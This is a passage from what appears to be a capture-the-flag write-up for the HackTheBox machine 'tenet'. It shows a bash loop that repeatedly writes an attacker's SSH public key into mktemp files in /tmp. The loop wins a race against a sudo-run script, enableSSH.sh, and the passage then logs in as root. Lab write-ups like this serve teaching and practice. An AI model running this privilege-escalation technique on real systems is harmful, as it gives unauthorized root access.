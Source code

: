 ```bash
key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded
```

Since `mktemp` will create a random file we need to make a race condition
to write our SSH pub key into it.

```bash
#!/bin/bash

key='ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINDGLndVd+2+y7FE7nVTrMtBvPiLNTMgObVw8s7d9B8n noraj@penarch'

while true
do
    echo $key | tee /tmp/ssh-* > /dev/null
done
```

We execute that while running `sudo /usr/local/bin/enableSSH.sh`.
Several tries may be necessary because race conditions doesn't always work the 1st time.

Then we can connect as root.

`ssh root@tenet.htb -i ~/.ssh/id_ed25519`

